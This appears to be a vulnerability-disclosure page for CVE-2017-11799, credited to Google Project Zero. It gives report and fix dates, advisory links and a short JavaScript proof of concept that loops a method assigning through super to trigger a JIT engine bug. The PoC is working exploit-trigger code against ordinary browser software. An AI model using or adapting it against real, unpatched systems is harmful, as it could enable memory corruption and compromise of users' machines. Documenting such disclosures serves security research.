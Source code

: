 # CVE-2017-11799

- Report: Aug 2017
- Fix: Oct 2017
- Credit: lokihardt of Google Project Zero

## PoC

```javascript
class MyClass {
    constructor() {
        this.arr = [1, 2, 3];
    }

    f() {
        super.arr = [1];
        this.x;
    }
}

let c = new MyClass();
for (let i = 0; i < 0x10000; i++) {
    c.f();
}
```

## Reference

- [Microsoft](https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/CVE-2017-11799)
- [Google Project Zero](https://bugs.chromium.org/p/project-zero/issues/detail?id=1333)

